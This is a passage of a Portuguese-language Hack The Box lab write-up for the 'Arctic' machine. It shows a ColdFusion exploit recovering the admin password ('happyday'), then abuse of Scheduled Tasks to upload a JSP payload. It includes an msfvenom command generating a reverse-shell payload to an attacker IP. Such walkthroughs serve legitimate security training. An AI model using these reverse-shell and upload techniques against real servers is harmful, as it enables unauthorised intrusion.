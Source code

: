 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit1.png)

### Testamos o exploit e conseguimos o hash do administrador

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit2.png)

### Descobrimos que a senha é `happyday`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit3.png)

> admin:happyday

Logamos no servidor

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit4.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit5.png)

#### Na aba *Debugging and Logging* temos a opção *Scheduled Tasks*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit6.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit7.png)

Ele nos da a opção de fazer o download de um arquivo e colocar no servidor, desde que especifiquemos o caminho

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit8.png)

### Uma vez que o servidor coldfusion roda `java` devemos criar um payload no formato `.jsp`, para isso utilizaremos o `msfvenom`

> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.119 LPORT=443 -f raw > exploit.jsp

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_msfvenom.png)

Bom, agora devemos encontrar o local para upar esse arquivo no servidor, pois ele pede o diretório todo.
Isso encontramos em `Settings -> Mapping`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit9.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit10.png)

### Agendamos a tarefa e fazemos o upload do exploit.jsp na pasta CFIDE
